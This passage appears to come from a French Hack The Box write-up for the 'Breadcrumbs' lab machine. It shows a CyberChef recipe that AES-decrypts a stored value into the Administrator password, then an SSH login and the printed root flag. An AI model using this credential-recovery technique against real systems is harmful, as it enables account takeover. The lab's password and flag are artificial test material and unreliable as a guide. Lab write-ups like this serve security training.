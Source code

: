 
```sh
p@ssw0rd!@#$9890./
```


```sh
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',false)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0
```

Le lien CyberChef qui nous emmène directement au password Administrator : 


```sh
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',false)AES_Decrypt(%7B'option':'Latin1','string':'k19D193j.%3C19391('%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=SDJkRnovak53dFNUV0RVUm90OUpCaFdNUDZYT2RtY3BncXZZSEczNVFLdz0
```

ssh administrator :

```sh
?--x0ld@emp7 ~/HackTheBox/Breadcrumbs  
?-?  ssh administrator@10.10.10.228
administrator@10.10.10.228's password: 
Microsoft Windows [Version 10.0.19041.804]
(c) 2020 Microsoft Corporation. All rights reserved.

administrator@BREADCRUMBS C:\Users\Administrator>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Users\Administrator

01/26/2021  10:06 AM    <DIR>          .
01/26/2021  10:06 AM    <DIR>          ..
01/15/2021  04:56 PM    <DIR>          3D Objects 
01/15/2021  04:56 PM    <DIR>          Contacts   
02/09/2021  08:08 AM    <DIR>          Desktop    
01/15/2021  04:56 PM    <DIR>          Documents  
01/15/2021  04:56 PM    <DIR>          Downloads  
01/15/2021  04:56 PM    <DIR>          Favorites  
01/15/2021  04:56 PM    <DIR>          Links      
01/15/2021  04:56 PM    <DIR>          Music      
01/15/2021  05:00 PM    <DIR>          OneDrive   
01/15/2021  04:57 PM    <DIR>          Pictures   
01/15/2021  04:56 PM    <DIR>          Saved Games
01/15/2021  04:57 PM    <DIR>          Searches   
01/15/2021  04:56 PM    <DIR>          Videos     
               0 File(s)              0 bytes     
              15 Dir(s)   3,500,806,144 bytes free

administrator@BREADCRUMBS C:\Users\Administrator>cd Desktop

administrator@BREADCRUMBS C:\Users\Administrator\Desktop>type root.txt
5e6d65093806f0274febf849b09ea8d9
```
